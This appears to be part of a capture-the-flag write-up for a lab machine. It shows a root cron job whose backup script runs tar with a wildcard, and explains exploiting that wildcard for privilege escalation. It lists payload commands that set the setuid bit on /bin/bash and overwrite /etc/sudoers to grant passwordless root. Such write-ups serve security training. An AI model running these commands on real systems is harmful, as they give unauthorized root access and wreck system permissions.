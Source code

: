 
## Privilege Escalation (server-management to root)

### Cron Job - script

- Cat the script file `/var/opt/backupsrv.sh` executed as **root** user in the crontab.

```bash
server-management@vulnnet:~$ cat /var/opt/backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
server-manage
```

- It's copying the files inside `/home/server-management/Documents` directory (**with a wildcard match**) and saving it as `.tgz` file in the `/var/backups` directory.
- Initially I tried to do **path hijacking** and was fumbling around!
- Finally got this: [Tar - Execute arbitrary commands](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar)


### Exploiting tar

- Insert malicious code into `exploit.sh` and also the arbitrary command execution payload!
- Malicious code:
  - `chmod +s /bin/bash` (or)
  - `echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers`
